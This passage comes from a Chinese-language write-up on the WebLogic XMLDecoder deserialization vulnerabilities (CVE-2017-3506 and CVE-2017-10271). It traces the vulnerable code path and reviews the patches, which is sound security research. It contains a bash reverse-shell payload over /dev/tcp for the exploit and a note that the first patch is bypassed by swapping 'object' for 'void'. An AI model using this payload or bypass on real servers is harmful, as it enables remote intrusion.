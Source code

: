```xml  
&lt;soapenv:Body/&gt;      
&lt;/soapenv:Envelope&gt;  
```  
弹`shell`  
`&lt;string&gt;bash -i &amp;gt;&amp;amp; /dev/tcp/ip/port 0&amp;gt;&amp;amp;1&lt;/string&gt;`  
### 漏洞分析  
可以看到`server/lib/wls-wsat.war/WEB-INF/web.xml`文档中存在许多接口，这些接口都可以对SOAP报文进行处理，也就是说，这些接口都存在`Weblogic XMLDecoder`反序列化漏洞  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031611700.png)
接着到`weblogic.wsee.jaxws.workcontext.WorkContextServerTube#processRequest`方法，这个方法对接口数据进行了初步的处理，打断点调试  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031623894.png)
此处的`var1`为我们的恶意xml数据，var2获取了xml header，也就是`text/xml`，并将其转换为列表形式，var3是从var2中获取`WorkAreaConstants.WORK_AREA_HEADER`得到的，最后将`var3`放入`readHeaderOld()`方法进行处理。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031627246.png)
跟进，在构造出`var6`之前，本质上都是在做赋值的工作，var4获取了恶意XML数据里面的内容部分。关于var6的构造，我们需要跟进`WorkContextXmlInputAdapter`类的构造函数  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031628103.png)
可以看到本质上是`new`了一个`XMLDecoder`类，并将`var4`的内容(XML数据里的内容)赋了进去。继续往下，跟进`receive()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031630944.png)
`receive()`方法生成了处理`XMLDecoder`类的处理器，进行下一步`receiveRequest()`的处理，在跟进  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031631542.png)
在跟进`readEntry()`方法，`readEntry()`方法调用了`readUTF()`方法，跟进`readUTF()`方法，上面一直在做层层封装的工作  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031632330.png)
在`readUTF()`方法中，调用了`readObject`方法，对XML数据进行反序列化解析。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031633449.png)
## 0x03 漏洞修复  
### CVE-2017-3506 补丁分析  
这里补丁在`WorkContextXmlInputAdapter`中添加了`validate`验证，限制了`object`标签，从而限制通过XML来构造类  
```java  
private void validate(InputStream is) {  
      WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();  
      try {  
         SAXParser parser = factory.newSAXParser();  
         parser.parse(is, new DefaultHandler() {  
            public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {  
               if(qName.equalsIgnoreCase(&#34;object&#34;)) {  
                  throw new IllegalStateException(&#34;Invalid context type: object&#34;);  
               }  
            }  
         });  
      } catch (ParserConfigurationException var5) {  
         throw new IllegalStateException(&#34;Parser Exception&#34;, var5);  
      } catch (SAXException var6) {  
         throw new IllegalStateException(&#34;Parser Exception&#34;, var6);  
      } catch (IOException var7) {  
         throw new IllegalStateException(&#34;Parser Exception&#34;, var7);  
      }  
   }  
```  
绕过方法很简单，将`object`修改成`void`，也就是最开始漏洞复现exp  
### CVE-2017-10271补丁分析  
```java  
private void validate(InputStream is) {  
   WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();  
   try {  
```